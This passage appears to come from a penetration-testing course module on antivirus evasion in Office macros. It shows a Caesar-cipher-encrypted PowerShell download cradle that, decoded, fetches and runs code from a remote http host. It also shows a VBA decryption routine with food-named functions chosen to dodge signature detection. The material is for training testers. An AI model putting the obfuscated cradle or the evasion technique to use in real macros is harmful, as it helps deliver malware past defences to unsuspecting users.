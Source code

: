 > Listing 44 - Encryption routine in PowerShell

Inside the loop, the byte value of each character is increased by 17, which is the Caesar cipher key selected in this example. We'll use _if_ and _else_ conditions to pad the character's decimal representation to three digits.

Finally, each decimal value is appended to the output string and piped onto the clipboard through clip.[7](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5148-7) Running the PowerShell script produces the following output on the clipboard:

```
1291281361181311321211181251250490621181371181160491151381291141321320
4906212712812904906213604912112211711711812704906211604912211813705705
7127118136062128115123118116133049132138132133118126063127118133063136
1181151161251221181271330580631171281361271251281141171321331311221271
2005705612113313312907506406406607406706306607107306306606607406306606
7065064115128128124063133137133056058058
```

> Listing 45 - Encrypted PowerShell download cradle

We can now use a similar process for the other two content strings in the VBA macro.

A simple VBA decrypting routine is shown in Listing 46 and consists of four functions. Notice that we are reducing the potential signature count in this decryption routine by using benign function names related to food.

The main _Nuts_ function performs a _while_ loop through the entire encrypted string where the _Oatmilk_ variable is used to accumulate the decrypted string.

```
Function Pears(Beets)
    Pears = Chr(Beets - 17)
End Function

Function Strawberries(Grapes)
    Strawberries = Left(Grapes, 3)
End Function

Function Almonds(Jelly)
    Almonds = Right(Jelly, Len(Jelly) - 3)
End Function

Function Nuts(Milk)
    Do
    Oatmilk = Oatmilk + Pears(Strawberries(Milk))
    Milk = Almonds(Milk)
    Loop While Len(Milk) > 0
    Nuts = Oatmilk
End Function
```

> Listing 46 - Decryption routine using food product names

For each iteration of the loop, the entire encrypted string is sent to _Strawberries_. The function uses _Left_[8](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5148-8) to fetch the first three characters of the string and returns that value.
